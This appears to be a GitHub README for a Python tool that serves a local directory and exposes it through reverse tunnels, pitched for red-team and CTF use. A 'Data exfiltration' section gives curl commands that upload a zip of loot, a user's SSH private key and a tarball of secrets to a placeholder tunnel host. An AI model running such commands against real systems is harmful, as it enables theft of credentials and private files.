 <h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fwebhook&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Buy%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black" alt="Buy Me a Coffee">
    </a>  
    <a href="mailto:ehph@proton.me">
      <img src="https://img.shields.io/badge/ProtonMail-6001D2?style=for-the-badge&logo=protonmail&logoColor=white" alt="ProtonMail">
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      <img src="https://img.shields.io/badge/Contribute-%23121011.svg?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding

![Banner](assets/banner.png)

---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---


## 🚀 Banner
```bash
 python3 webhook.py -h

     .->    (`-')  _<-.(`-')  (`-').->                      <-.(`-')  
 (`(`-')/`) ( OO).-/ __( OO)  (OO )__      .->        .->    __( OO)  
,-`( OO).',(,------.'-'---.\ ,--. ,'-'(`-')----. (`-')----. '-'. ,--. 
|  |\\  |  | |  .---'| .-. (/ |  | |  |( OO).-.  '( OO).-.  '|  .'   / 
|  | '.|  |(|  '--. | '-' `.)|  `-'  |( _) | |  |( _) | |  ||      /) 
|  |.'.|  | |  .--' | /`'.  ||  .-.  | \\|  |)|  | \\|  |)|  ||  .   '  
|   ,'.   | |  `---.| '--'  /|  | |  |  '  '-'  '  '  '-'  '|  |\\   \\ 
`--'   '--' `------'`------' `--' `--'   `-----'    `-----' `--' '--' 
     Author: l0n3m4n | Version: 1.1.3 | Tunneling local Server 

usage: webhook.py [-h] [-p PORT] [-d DIRECTORY] (--serveo | --cloudflared | --ngrok | --localtunnel)
                  [--exiftool]

📡 Serve a local directory and expose it via a tunnel (Serveo, Cloudflared, Ngrok, LocalTunnel).

options:
  -h, --help            show this help message and exit
  -p, --port PORT       Local port to serve (default: 80)
  -d, --directory DIRECTORY
                        Directory to serve (default: current dir)
  --serveo              Use Serveo tunnel
  --cloudflared         Use Cloudflared tunnel
  --ngrok               Use Ngrok tunnel
  --localtunnel         Use LocalTunnel tunnel
  --exiftool            Use ExifTool for metadata extraction


    Examples:                                                                                         
      python3 webhook.py -p 8080 --serveo --exiftool                                        
      python3 webhook.py -p 80 -d /var/www/html --cloudflared                                          
      python3 webhook.py -p 3000 -d ~/my-site --ngrok                                                 
      python3 webhook.py -p 8080 -d ~/my-site --localtunnel 
```

## 🛠 Requirements

  - Python 3.6+
  - Internet access (for tunnels)
  - At least one tunneling tool installed:
      * Serveo (via SSH)
      * cloudflared (fallback if Serveo fails)
      * ngrok (optional)
      * localtunnel (optional)
      * exiftool

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook 
pip install -r requirements.txt --break-system-packages

# Make it executable
chmod +x webhook.py 
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 --serveo -d /var/www/html
```
![usage](assets/usage.png)
![output](assets/output.png)
![status_codes](assets/status_codes.png)
![headers_log](assets/headers_logs.png)
 

## 🔁 Data exfiltration
```bash
curl -X POST http://abc123.cloudflaretunnel.com/upload --data-binary "@loot.zip"

curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
